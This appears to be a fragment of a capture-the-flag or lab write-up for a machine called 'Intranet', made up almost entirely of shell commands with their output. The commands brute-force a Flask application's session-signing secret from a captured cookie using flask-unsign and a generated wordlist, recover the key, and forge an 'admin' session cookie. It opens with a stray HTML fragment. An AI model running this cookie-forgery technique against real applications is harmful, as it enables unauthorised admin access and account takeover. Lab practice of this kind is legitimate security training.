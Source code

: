 ```bash
    
    </div>

</body>
</html>
```



```bash
:~/Intranet# python3 -m pip install --upgrade pip
```

```bash
:~/Intranet# pip3 install flask-unsign
```

```bash
:~/Intranet# pip3 install blinker==1.5
```

```bash
:~/Intranet# echo 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.aN1NTg.wj8ABWJCK5uSDPyexxkuF718-94' > session.cookie.txt
```

```bash
:~/Intranet# for i in $(seq 100000 999999); do echo "secret_key_$i"; done > possibilities.txt
```

```bash
:~/Intranet# head -n 4 possibilities.txt
secret_key_100000
secret_key_100001
secret_key_100002
secret_key_100003
```

```bash
:~/Intranet# flask-unsign --unsign --cookie "$(cat session.cookie.txt)" --wordlist possibilities.txt
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 223872 attempts
'secret_key_323784'
```


```bash
:~/Intranet# flask-unsign --unsign --sign --cookie '{"logged_in": true, "username": "admin"}' --secret 'secret_key_323784'
IntcImxvZ2dlZF9pblwiOiB0cnVlLCBcInVzZXJuYW1lXCI6IFwiYWRtaW5cIn0i.aN1S7g.t-3_bw3U-Kik9bcL6lPyUZq6Wms
```

```bash
:~/Intranet# flask-unsign --unsign --sign --cookie '{"logged_in": True, "username": "admin"}' --secret 'secret_key_323784'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aN1TIg.LqAuqWsg9sat6UZbV4ycja_2mVk
```
